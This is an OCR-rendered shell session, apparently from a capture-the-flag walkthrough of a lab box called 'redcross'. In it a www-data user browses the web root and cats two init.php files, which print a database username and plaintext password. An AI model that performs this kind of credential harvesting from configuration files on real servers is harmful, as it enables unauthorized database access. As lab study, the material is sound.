 ```
firewall.php
header.php
login.php
users.php
www-data@redcross:/var/www/html/admin/pages$ cd ..
cd ..
www-data@redcross:/var/www/html/admin$ ls
ls
9a7d3e2c3ffb452b2e40784f77723938
images
index.php
init.php
pages
www-data@redcross:/var/www/html/admin$ cat init.php
cat init.php
<?php
#database configuration
$dbhost='127.0.0.1';
$dbuser='dbcross';
$dbpass='LOSPxnme4f5pH5wp';
$dbname='redcross';
?>
www-data@redcross:/var/www/html/admin$ cd ..
cd ..
www-data@redcross:/var/www/html$ ls
ls
admin
default
intra
www-data@redcross:/var/www/html$ ls -lah default
ls -lah default
total 8.0K
drwxr-xr-x 2 root root 4.0K Jun  3  2018 .
drwxr-xr-x 5 root root 4.0K Jun  3  2018 ..
www-data@redcross:/var/www/html$ ls -lah intra
ls -lah intra
total 32K
drwxr-xr-x 5 root root 4.0K Jun  8  2018 .
drwxr-xr-x 5 root root 4.0K Jun  3  2018 ..
-rw-r--r-- 1 root root  145 Jun  8  2018 .htaccess
drwxr-xr-x 2 root root 4.0K Jun  7  2018 documentation
drwxr-xr-x 2 root root 4.0K Jun  4  2018 images
-rw-r--r-- 1 root root  718 Jun  7  2018 index.php
-rw-r--r-- 1 root root  121 Jun  6  2018 init.php
drwxr-xr-x 2 root root 4.0K Jun 11  2018 pages
www-data@redcross:/var/www/html$ cat intra/init.php
cat intra/init.php
<?php
#database configuration
$dbhost='127.0.0.1';
$dbuser='dbcross';
$dbpass='LOSPxnme4f5pH5wp';
$dbname='redcross';
?>
www-data@redcross:/var/www/html$
```
